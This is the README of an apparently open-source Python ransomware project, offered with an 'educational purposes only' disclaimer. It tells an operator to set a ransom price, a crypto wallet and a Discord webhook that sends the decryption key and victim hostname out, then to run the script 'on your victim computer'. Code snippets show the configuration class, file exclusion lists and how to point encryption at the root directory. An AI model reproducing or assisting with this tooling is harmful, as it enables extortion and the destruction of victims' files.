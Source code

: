 ![This is an image](https://i.ibb.co/CV9mKzD/Background.png)



<h1 align="center">RANSOMWARE.PY</h1>

<div align="center">
  <strong>Ransomware made with python, open-source project.</strong>
  <br>
  <br>

  <a href="https://travis-ci.com/kyb3r/dhooks">
    <img src="https://img.shields.io/travis/com/kyb3r/dhooks/master.svg?style=for-the-badge&colorB=06D6A0" alt="Travis" />
  </a>
  
  <a href="https://test-dhooks-doc.readthedocs.io/en/latest/?badge=latest">
    <img src="https://img.shields.io/readthedocs/dhooks.svg?style=for-the-badge&colorB=E8BE5D" alt="Documentation Status" />
  </a>

  <a href="https://github.com/kyb3r/dhooks/">
    <img src="https://img.shields.io/pypi/pyversions/dhooks.svg?style=for-the-badge&colorB=F489A3" alt="Py Versions" />
  </a>

  <a href="https://pypi.org/project/dhooks/">
    <img src="https://img.shields.io/pypi/v/dhooks.svg?style=for-the-badge&colorB=61829F" alt="PyPi" />
  </a>

  <a href="https://github.com/kyb3r/dhooks/blob/master/LICENSE">
    <img src="https://img.shields.io/github/license/kyb3r/dhooks.svg?style=for-the-badge&colorB=7289DA" alt="LICENSE" />
  </a>
</div>
<br>



Here is an open-source program that allows you to understand the creation of a ransomware via **python**. I remind you that this is only for **educational purposes**, I am not responsible for any problems related to these scripts.

- **How it works ?**

In order to be able to encrypt the files and decrypt them, I use the `cryptography.fernet` module. This module allows to encrypt a message or files only accessible with a decryption key.

If you want to convert the .py file into a `.exe` file its possible ! Using [pyinstaller](https://pyinstaller.org/en/stable/)

### Reminder...

![EDUCATIONPURPOSESONLY](https://i.ibb.co/PY6JP4g/kwawif.png)

## Authors

- [@zaqoQLF](https://www.github.com/zaqoQLF)


## Installation Windows
![Logo](https://i.ibb.co/tJBNv9x/Screenshot-2022-05-24-at-8-07-34-PM.png)

In order to be able to install all the dependencies you will need to have `pip` installed and run the commands below. If you are on **windows** run the `install.bat` file and the installation will be done automatically

```bash
  pip install os
  pip install time
  pip install socket
  pip install cryptography
  pip install discord_webhook
  pip install colorama
  pip install binascii
```

In the `ransomware.py` can modify some values like the `Discord Webhook`, your CryptoCurrency Wallet, the requested price, and the currency desired.

```python
  class ransomware:
    def __init__(self):
        self.files_to_encrypt = []
        self.KeyStore = []
        self._keyEncrypt = Fernet.generate_key()
        self.dc_webhook = DiscordWebhook("Your Discord Webhook Here")
        self.wallet_url = "YOUR WALLET URL"
        self.priceToAsk = "Price To Ask Here"
        self.currency = "Crypto Currency Choice"
  ```
  
In case you don't want to encrypt some files, you can specify it as I did in this line of code below.
- Attention, you must write the file name similar to the file you do not want to encrypt

So if you want to add `DoNotEncryptMe.txt` just add a line of code after the `install.bat` like this:

Do this for the 2 functions, its very important cause if you don't do that it will encrypt your files, or decrypt it.
But in the case you want to encrypt all victim's files, don't touch anything.

```python
   ... or file == 'DoNotEncryptMe.txt':
```
```python
    # In the encrypt_files function
    if file == 'ransomware.py' or file == 'rkey.key' or file == 'encryptionCheck.txt' or file == 'install.bat' or file == 'ADD YOUR FILE NAME HERE':
```
```python
    # In the decrypt_files function
    if file == 'ransomware.py' or file == 'rkey.key' or file == 'encryptionCheck.txt' or file == 'install.bat' or file == 'ADD YOUR FILE NAME HERE':
```
    
## Running Scripts

![Logo](https://i.ibb.co/1qGfTKF/Screenshot-2022-05-24-at-8-06-10-PM.png)

To be able to execute the files you will have to run these commands

The script must be run on your victim computer.
```python
  python3 ransomware.py
```

By default the files which will be encrypted will be those which are in the current working directories, to specify the path you can add this for example:
for more information click [here](https://www.geeksforgeeks.org/python-os-listdir-method/)

```python 
  path = "/"   # "/" correspond to the root file but you can custom with a custom path example C: Boot or D:/
  for file in os.listdir(path): # then specify the path as parameter
```

If the decryption key correspond it will shows you this:

![Decryption Accepted](https://i.ibb.co/1s4RSrg/rightkey.png)

Else, it will return an error and keep your files encrypted until you have the right decryption key :

![Decryption Rejected](https://i.ibb.co/D5MngLn/incorrect-Key.png)

## How Encryption works ?

The encryption will change all your victim's current file (in the directory chosen) by an encryption that will be only readable/decryptable with a key. ( The key will be send on Discord with webhook, you need to put the link of your webhook in the `self.dc_webhook = ""`).

Regarding encryption, all the encryption you will do will be automatically in bytes which means that you must decode -> strings to be able to use your variables or whatever you want.

In this script everything has already been done but if you want for example to send the key via email/smtp or other you will have to decode it.
- Here is a code sample :
```python
    from cryptography.fernet import Fernet

    key_encryption = Fernet.generate_key()

    _Key = Fernet(key_encryption)

    TextToEncrypt = _Key.encrypt(b'Hello World !') # Need to be in bytes

    # Output of TextToEncrypt : b'gAAAAABijpAFxDE5pe5EJHIPgdtfRNvSvk81wEXyueyyKhDYWt-0w13c2eJVFNBUmxB0WVTvnVccYxP0MrlM9asNC-oLLZ1mZQ=='

    # Then decrypt

    DecryptText = _Key.decrypt(TextToEncrypt) # Output : b'Hello World !'

    # As you see it will be in Bytes so to decode it to turn this variable into strings : 

    print(DecryptText.decode()) 

    # Output -> Hello World !
```

For example i got here a `.txt.` file and i will encrypt it.

![txt file](https://i.ibb.co/pR56FRT/hello-World.png)

So, first of all in my directory i only got this txt file and my script, you can make some exception to avoid encryption on some specified files.
If i run my script it will encrypt it and it will be not readable anymore until the victim's got the key

After that, few files will be created, first an `encryptionCheck.txt` will be create on the victim's computer this file will be used to check if this file exist. If its not it will encrypt all the file and if it already exist it will just ask the victim a ransom. So its a way to check if the encryption already been executed or not.

This `encryptionCheck.txt` is very useful but not the smarter way to do it but it makes the script more easier to understand and like this all the code is in one and unique script. 

After the encryption check file done, it will create a `rkey.key` file on the computer's victim. This will store the key in it but the victim will in no way know that the key is on his computer, moreover it will be mixed with a lot of files so impossible to find it for the victim. Since the files will have been modified, "The quick access" (folder on your computer) will be spammed by all the modified files, so it is impossible to find this key. 

Hello World File afer encryption : 

![AfterEncryption](https://i.ibb.co/ZGy4p3b/wuinduaw.png)

[!] To decrypt the victim files he will need the encryption key, you will receive it by webhook through discord webhook.
  
## Discord Webhooks

![App Screenshot](https://i.ibb.co/cQ7z9Y8/Screenshot-2022-05-24-at-8-09-39-PM.png)

- In this code there is a system that allows you to receive via webhook the hostname on which computer the ransomware was executed as well as the decryption key. 

- [FIXED - WORKS] For the moment the key cannot be used but you can change that by putting an input in the script and converting the string to bytes, base64 url-safe

![App Screenshot](https://i.ibb.co/KFSn0dQ/webhook2.png)

## Screenshot of Shell
![App Screenshot](https://i.ibb.co/RDNbssh/ransomware.png)


